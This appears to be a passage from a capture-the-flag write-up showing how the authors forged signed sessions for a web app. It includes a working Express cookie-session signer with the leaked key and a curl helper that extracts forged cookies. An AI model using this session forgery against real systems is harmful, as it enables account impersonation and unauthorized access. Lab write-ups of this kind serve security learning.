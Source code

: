```text
  size       Int
  private    Boolean  @default(false)
  uploadedAt DateTime @default(now())
  author     User?    @relation(fields: [authorId], references: [id])
  authorId   Int?
}
```
{:file="STDOUT" .nolineno}


### Session Forgery

We created a program to forge valid sessions using snippets of the original source. This program creates an Express web server that signs user-defined objects with the **cookie-session** module and the original key.

```js
const express = require("express");
const cookie_parser = require("cookie-parser");
const cookie_session = require("cookie-session");
const app = express();

app.use(cookie_session({
  name: "download_session",
  keys: ["8929874489719802418902487651347865819634518936754"],
  maxAge: 7 * 24 * 60 * 60 * 1000,
}));
app.use(cookie_parser());
app.use(express.json());
app.post("/sign", async(req, res) => {
  req.session = req.body
  res.send({});
});

app.listen(3000, "127.0.0.1");
```
{:file="forge-session/forge.js"}

We also created a shell function to streamline the process of signing sessions.

```zsh
download_forge_session() {
  curl -i -s "http://127.0.0.1:3000/sign" \
    -H "Content-Type: application/json" \
    -d "$1" |
      grep '^Set-Cookie: ' |
      sed -E 's/^Set-Cookie: ([^;]+).*/\1;/'
}
```
{:file="bryan@redteam ➤ zsh" .nolineno}


#### Enumerate Users
